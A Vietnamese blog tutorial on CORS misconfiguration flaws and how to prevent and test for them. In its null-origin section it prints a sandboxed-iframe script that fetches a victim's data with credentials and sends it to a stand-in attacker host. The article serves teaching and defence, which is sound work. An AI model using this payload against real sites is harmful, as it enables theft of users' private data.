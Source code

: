 ![](https://images.viblo.asia/c4613ce2-f8f3-4ff3-b950-682e336bb58f.png)


## I. Các khái niệm chung
Đối với developer, việc sử dụng CORS để chia sẻ tài nguyên giữa các domain là công việc hết sức bình thường, nhưng không phải ai cũng biết cách để ứng dụng CORS cho an toàn. CORS cho phép chúng ta chia sẻ các tài nguyên dễ dàng nhưng cũng đồng thời là nơi để kẻ tấn công có thể khai thác nếu như cấu hình không thực sự tốt. Trước khi đi vào chi tiết về các lỗ hổng, mình xin phép điểm qua hai khai niệm cơ bản khi nhắc tới CORS.

### 1. Same Origin Policy
Same Origin Policy (SOP) là chính sách được tạo ra nhằm tăng tính bảo mật của website, thông qua việc giới hạn truy cập tới tài nguyên của trang web trong phạm vi các trang cùng domain. Việc này giúp tăng tính bảo mật thông tin cho trang web, hạn chế các script từ các trang web khác tấn công. Tuy nhiên việc sử dụng SOP cũng có một hạn chế là gây khó khăn cho việc chia sẻ tài nguyên giữa các trang web không nằm cùng một domain. Điều này dẫn tới sự ra đời của khái niệm tiếp theo, thứ mà mình sẽ phân tích trong bài viết này: Cross Origin Resource Sharing (CORS)

### 2. Cross Origin Resource Sharing
Giống như cái tên của mình, Cross Origin Resource Sharing (CORS) là một kĩ thuật để cho phép các trang web khác domain có thể chia sẻ tài nguyên với nhau thông qua các headers. Browser sẽ sử dụng các header này để xem tài  nguyên có được truy cập tới hay không. 

Chi tiết  về SOP và CORS có thể tham khảo theo bài viết: [CORS](https://viblo.asia/p/cors-jvElaBNd5kw) . Trong bài viết này, mình xin được nói ngắn gọn để tập trung việc phân tích các lỗi thường gặp khi cấu hình CORS trên website.

## II. Các lỗ hổng thường thấy trong cấu hình CORS
![](https://images.viblo.asia/b517bc94-ee22-45db-9132-df45106a3c0e.png)


### 1. Response header được tạo theo origin header gửi lên từ client
Việc duy trì một whitelist lớn cho các domain đôi khi rất tốn kém và khó khăn, cũng như việc nếu có bất cứ một lỗi nào cũng có thể làm ảnh hưởng đến chức năng của hệ thống. Thế nên, nhiều developer chọn cho mình các dễ dàng là lấy luôn origin header được gửi từ client làm Access-Control-Allow-Origin header trong response. Việc này đồng nghĩa với việc bất cứ domain nào chỉ cần gửi kèm một header origin là có thể truy cập tới tài nguyên. Lỗi này thường ít gặp nhưng nếu gặp lại rất nguy hiểm vì nếu response gửi về kèm theo các thông tin  nhạy cảm sẽ dễ dàng bị lộ ra chỉ với một thao tác đơn giản.
Ví dụ: trang web này gửi 1 request để lấy thông tin của người dùng, một request thông thường sẽ nhận được response như hình dưới
![](https://images.viblo.asia/9fd6cffa-2980-4e55-bf12-54854196a7d9.png)

Tuy nhiên, trang web này không xác thực origin của request, nên khi thêm bất kì origin nào vào request cũng được accept:
![](https://images.viblo.asia/f638fbdb-5eb4-4f9b-b420-f1c50cf068fb.png)

Như ở ví dụ trên, dù có là domain nào gửi tới cũng sẽ nhận được response accept từ server. Hacker có thể lợi dụng điều này để tạo 1 đoạn script để lấy được thông tin của bất cứ người dùng nào của trang trên khi truy cập vào web của hắn: 
![](https://images.viblo.asia/b1fe1fb5-0102-4e5b-99ac-4d36c3173ee0.png)

Mọi request sẽ ghi vào log và hacker có thể lấy được thông tin mà hắn muốn:
![](https://images.viblo.asia/f1abf7ac-1201-401c-88c0-2ac1ff7a6e93.png)

Decode nhẹ nhàng với url decoder là sẽ có được thông tin trắng của người dùng.
![](https://images.viblo.asia/5bb0cbe8-8c79-4a4f-b448-968edb4b9b35.png)

Từ thông tin này, hacker có thể tiến hành các tấn công xa hơn như thay đổi email, mật khẩu...


### 2. Phân tích thiếu chặt chẽ Origin Header
Thông thường, các website sẽ có một whitelist các domain được phép truy cập cùng các subdomain. Việc xác thực thường thông qua các prefix, postfix hay regex để kiểm tra origin header gửi lên có nằm trong whitelist hay không. Nếu cấu hình việc xác thực thiếu chặt chẽ, kẻ tấn công có thể bypass được và lấy được các thông tin nhạy cảm.

Ví dụ: Một website A cho phép các request từ domain "innocent-website.com" truy cập tới tài nguyên. Gói tin "sạch" gửi lên sẽ có dạng:

![](https://images.viblo.asia/c5389699-4351-4300-bc15-7ed7f73db50f.png)

và response trả về sẽ có dạng: 

![](https://images.viblo.asia/ccdd3a05-6a1d-4c4b-8a7c-a7f9b0fad4cf.png)


Tuy nhiên, việc kiểm tra trên server lại chỉ kiểm tra origin header có chứa "normal-website.com" hay không. Nên nếu hacker sử dụng một domain như "maliciousinnocent-website.com" thì vẫn có thể lấy được data.

![](https://images.viblo.asia/fb73589e-675f-405c-b032-2ba3ac14a7b5.png)


Lỗi này tương đối phổ biến do việc cấu hình xác thực thiếu chặt chẽ vì tin tưởng vào header được người dùng gửi lên. Tuy lỗi này khó phát hiện hơn nhưng nếu có cũng dễ dàng giúp kẻ tấn công có thể lấy được thông tin.
    
### 3. Chấp nhận giá trị null của origin header
Đôi khi, để giúp cho việc local development được dễ dàng, nhiều ứng dụng sẽ cho phép giá trị null của origin header trong whitelist. Trong trường hợp này, kẻ tấn công có thể dùng một số mẹo để tạo ra giá trị null cho origin header để có thể lấy được thông tin. Ví dụ như sử dụng đoạn script tạo request từ một sandboxed iframe sau; 
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script><br>
var req = new XMLHttpRequest();<br>
req.onload = reqListener;<br>
req.open('get','vulnerable-website.com/sensitive-victim-data',true);<br>
req.withCredentials = true;<br>
req.send();<br>
<br>
function reqListener() {<br>
location='malicious-website.com/log?key='+this.responseText;<br>
};<br>
</script>"><br></iframe>
```

Đoạn script này sẽ gửi lên request với origin header có giá trị null lên server và vì giá trị null được whitelist, kẻ tấn công sẽ có thể lấy ra được thông tin nhạy cảm hắn muốn.

### 4. Khai thác CORS thông qua XSS từ các domain được whitelist
Trang web của bạn có cấu hình cẩn thận, validate mọi thứ hoàn hảo và bạn nghĩ sẽ không thể bị khai thác thông tin qua CORS? Chưa chắc đâu! 

Ví dụ như hình dưới đây ![](https://images.viblo.asia/d1cd558c-1003-46d6-8b23-3feb6aa79a9a.png)

Cam có một trang web sử dụng CORS, được cấu hình cẩn thận. Trong whitelist của Cam có anh bạn Quýt. Không may Quýt có lỗi XSS, thế là hacker lợi dụng web của Quýt gửi tới trang của Cam, Cam thì tin tưởng bạn mình nên là gửi trả lại data và hacker nghiễm nhiên lấy được nó.



### 5. Thiếu bảo mật với các domain nội bộ
Một tình huống khác cũng khá phổ biến trong cấu hình CORS là việc kiểm tra xác thực được thực hiện chặt chẽ với các domain bên ngoài, nhưng lại không có xác thực với các domain nội bộ. Trong trường hợp này, tuy kẻ tấn công không thể truy cập tới dữ liệu cách trực tiếp, hắn có thể sử dụng một vài các kĩ thuật để giả mạo request hoặc tạo request từ một domain trong mạng nội bộ với domain mục tiêu. Tuy có khó khăn hơn trong thực hiện nhưng kẻ tấn công vẫn có thể đạt được mục đích, thậm chí đi sâu hơn vào hệ thống. Nên là dù là anh em một nhà cũng đừng tin tưởng nhau quá nhé.

## III. Phòng tránh bị khai thác CORS như thế nào?
Trên đây mình đã chỉ ra 5 lỗ hổng thông thường trong việc sử dụng CORS. Ngoài ra, vẫn còn các kịch bản tấn công khác dù hiếm nhưng vẫn có thể gặp mà mình chưa thể liệt kê hết trong bài viết này.

Như người ta vẫn nói: "phòng bệnh hơn chữa bệnh", sau đây mình xin đưa ra các giải pháp cho việc phòng tránh tấn công CORS sao cho hiệu quả:

### 1. Cấu hình CORS cẩn thận
Nếu trang web có chứa các thông tin nhạy cảm, hãy chắc chắn rằng CORS được cấu hình cẩn thận và xác thực đầy đủ.
### 2. Chỉ tin tưởng các domain đáng tin cậy
Hạn chế việc whitelist quá nhiều domain mà không biết có thể tin tưởng được hay không. Cũng như chắc chắn mình sẽ không là "quả cam đáng thương" phải đổ vỏ cho thằng Quýt nhé.
### 3. Không sử dụng giá trị null cho origin header
Giá trị null là giá trị nhạy cảm, việc sử dụng có thể dẫn tới các kết quả không mong muốn và là lỗ hổng để kẻ tấn công khai thác. Nên việc không sử dụng sẽ giúp hạn chế nguy cơ bị tấn công đó.
### 4. Áp dụng việc xác thực ngay cả với các domain nội bộ
Anh em trong nhà có khi còn lừa nhau thì mấy cái domain nội bộ cũng vậy thôi. Đừng tin tưởng dù có là domain nội bộ hay bên ngoài, hãy chắc chắn việc xác thực được thực thi với mọi request gửi tới server nhé.
### 5. Nếu có thể hãy sử dụng cookie và TLS để tăng tính bảo mật
Sử dụng cookie và HTTPs sẽ giúp tăng tính bảo mật cho website khi sử dụng CORS. Tuy nhiên, hãy chắc rằng việc sử dụng TLS hay cookie cũng  được kiểm tra kĩ lưỡng nhé.
### 6. Đừng tin bất cứ thứ gì người dùng gửi lên, kể cả mấy cái header
Người dùng là nơi nhiều lỗ hổng nhất trong cấu trúc của hệ thống thông tin. Mọi thứ người dùng gửi lên là không thể đoán trước và bất cứ thứ gì cũng có thể là độc hại và giả mạo. Thế nên hãy chắc chắn việc xác thực ở server được thực hiện một cách thật cẩn thận trước khi chấp thuận một request nào.

## IV. Test CORS như thế nào?
Thông thường khi kiểm tra một website có dính các lỗi liên quan tới CORS hay không, mình thường dùng BurpSuite Repeater để thử thay đổi nội dung của các header, nắm bắt cách CORS của trang đó cấu hình và thử các kịch bản thường gặp.

CORS cũng có thể được phát hiện qua các web vulnerability scanner như Burp 

Ngoài ra, Open Web Application Security Project (OWASP) cũng khuyến nghị 1 tool khá hay để test CORS cho trang web là [OWASP Zed Attack Proxy (ZAP)](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)

## V. Lời kết
CORS là một kĩ thuật quan trọng, được sử dụng phổ biến. Tuy nhiên, việc chia sẻ tài nguyên phải được chú ý cẩn thận, vì biết đâu, chỉ một lỗi nhỏ lại khiến bạn trở thành nạn nhân của một hacker may mắn nào đó.

(Bài viết này được tham khảo và tổng hợp theo [Portswigger](https://portswigger.net/web-security/cors) và [OWASP Testing Guide](https://portswigger.net/web-security/cors))